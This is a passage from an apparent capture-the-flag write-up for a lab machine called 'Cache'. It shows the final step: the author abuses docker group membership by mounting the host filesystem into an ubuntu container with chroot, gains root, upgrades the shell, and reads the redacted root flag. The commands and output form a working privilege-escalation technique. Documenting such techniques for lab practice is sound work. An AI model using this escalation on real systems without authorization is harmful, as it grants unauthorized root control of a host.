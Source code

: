 Afterwards, we will su into ```luffy``, but we notice that this user is still unable to execute sudo command. Recalling that this user is part of the docker group. We will first check all the docker images and containers on the terminal. During the investigation, we realize that even though there is no running containers in the terminal, there is a ubuntu image that could be leveraged to obtain root privileges.

```
luffy@cache:~$ docker ps
docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:~$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        23 months ago       64.2MB
```

Lastly, we will execute the ubuntu image and break out of the container to obtain root privileges. We can then obtain the system flag with the root privileges.

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh                    
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# python3 -c 'import pty; pty.spawn("/bin/bash")'    
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@3bfb2314758:/# export TERM=xterm
export TERM=xterm
root@3bfb231b4758:/# stty cols 132 rows 34
stty cols 132 rows 34
root@3bfb231b4758:/# cd /root

cd /root
root@3bfb231b4758:~# 
root@3bfb231b4758:~# cat root.txt
cat root.txt
<Redacted root flag>
root@3bfb231b4758:~# 
```